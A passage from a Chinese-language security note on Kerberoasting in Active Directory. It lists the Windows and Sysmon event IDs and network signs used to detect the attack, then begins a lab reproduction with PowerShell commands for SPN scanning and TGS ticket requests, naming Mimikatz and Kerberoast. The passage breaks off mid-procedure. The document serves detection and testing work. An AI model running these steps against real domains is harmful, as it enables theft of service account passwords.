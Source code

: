 - **说明**：
  - 无需提权，仅需域用户权限即可请求TGS。
  - 破解成功可获得服务账户明文密码。
- **权限**：域用户权限。
- **支持系统**：WindowsServer2008及以上（需ActiveDirectory环境）。

## 检测日志

### 数据来源
- Windows安全日志：
  - 事件ID4769：Kerberos服务票证请求，记录TGS请求。
  - 事件ID4624：账户登录，记录请求票证的账户。
- Sysmon日志：
  - 事件ID1：进程创建，记录PowerShell或Mimikatz的执行。
  - 事件ID11：文件创建，记录导出的`.kirbi`文件。
- 网络流量（Netflow）：
  - 检测DC的LDAP查询（端口389）或Kerberos流量（端口88）。
  - 检测RC4加密类型（etype 23）的TGS-REP。
- 文件监控：
  - 检测非预期路径下的`.kirbi`文件。

## 测试复现

### 环境准备
- 攻击机：KaliLinux2019
- 靶机：
  - WindowsServer2012（域控制器，安装ActiveDirectory）
  - WindowsServer2016（运行服务，如SQLServer）
- 工具：
  - PowerShellAD模块（SPN扫描）
  - Mimikatz（票证导出）
  - Kerberoast（TGS破解）
  - Sysmon（可选，日志收集）

### 攻击分析

#### 测试1：SPN扫描与Kerberoasting
1. **安装PowerShellAD模块**：
   在WindowsServer2016上：
   ```powershell
   Import-Module ServerManager; Add-WindowsFeature RSAT-AD-PowerShell
   ```

2. **扫描SPN**：
   ```powershell
   setspn -T test.com -Q */*
   ```
   - 假设发现`MSSQLSvc/DC1.test.com`。

3. **请求TGS**：
   ```powershell
   $SPNName = 'MSSQLSvc/DC1.test.com'
   Add-Type -AssemblyName System.IdentityModel
   New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
   ```
